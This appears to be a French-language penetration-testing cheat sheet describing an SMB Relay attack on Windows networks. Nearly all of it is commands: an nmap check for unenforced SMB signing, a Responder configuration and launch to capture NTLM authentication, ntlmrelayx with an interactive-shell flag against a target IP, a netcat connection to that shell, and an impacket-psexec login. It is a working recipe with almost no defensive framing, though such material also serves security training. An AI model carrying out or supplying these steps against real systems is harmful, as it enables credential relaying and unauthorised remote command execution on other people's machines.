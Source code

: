 Aussi appeler `SMB Relay`

Pour cela fonctionne, il faut que `SMB Signing soit desactiver` et l'utilisateur dont les identifiants sont relayer doit etre `administrateur` au niveau de la machine.

```sh
nmap --script=smb2-security-mode IP
# regarder le message de smb2-security-mode:
	Host script results:
	| smb2-security-mode: 
	|   311: 
	|_    Message signing enabled but not required

# Cela nous montre que notre attaque peut fonctionner car la signature est acitver et n'est pas requise.
```

En suite, il faut desactiver les services SMB et HTTP de responder.

```sh
sudo nano /usr/share/responder/Responder.conf
	[Responder Core]
	SMB = Off
	HTTP = Off
```

```sh
sudo responder -I eth0
```

Combiner avec ntlmrelayx de impacket l'ajouter de `-i` a la commande impacket-ntlmrelayx pour obtenir un shell sur la machine distante et utiliser nc pour interagire avec elle.

```sh
ntlmrelayx.py -t 192.168.179.132 -smb2support -i
```

```sh
nc 127.0.0.1 NTRELAYX_PORT
```

```c
impacket-psexec username:password@target-ip
```

